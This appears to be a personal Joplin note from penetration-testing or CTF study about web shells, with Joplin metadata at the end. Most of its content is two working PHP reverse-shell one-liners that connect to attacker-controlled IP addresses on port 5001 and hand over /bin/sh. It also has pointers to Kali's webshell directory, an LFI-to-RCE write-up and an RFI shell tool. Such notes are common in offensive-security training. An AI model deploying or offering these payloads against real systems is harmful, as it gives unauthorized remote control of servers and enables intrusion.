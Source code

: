 WebShells

All shells available in /usr/share/webshells

![6631f8d70f89582903c24a8b3af64b9e.png](:/8f557d58cce342c7b796f39e81780b40)

# PHP Reverse Shell

## Linux

&lt;?php $sock=fsockopen("192.168.119.167",5001); exec("/bin/sh -i <&3 &gt;&3 2>&3");?>

> \# In a cmd shell code
> 
> php -r '$sock=fsockopen("10.10.14.50",5001); exec("/bin/sh -i &lt;&3 &gt;&3 2>&3");'

## Windows

There is a file on google called windows-php-reverse-shell

# LFI + RCE available

https://v3ded.github.io/ctf/zico2

For RFI

https://github.com/superkojiman/rfishell

id: 04f60329fa59421bbda0919c530ec989
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-01-20T03:03:46.024Z
updated_time: 2022-05-17T17:06:18.693Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-20T03:03:46.024Z
user_updated_time: 2022-05-17T17:06:18.693Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1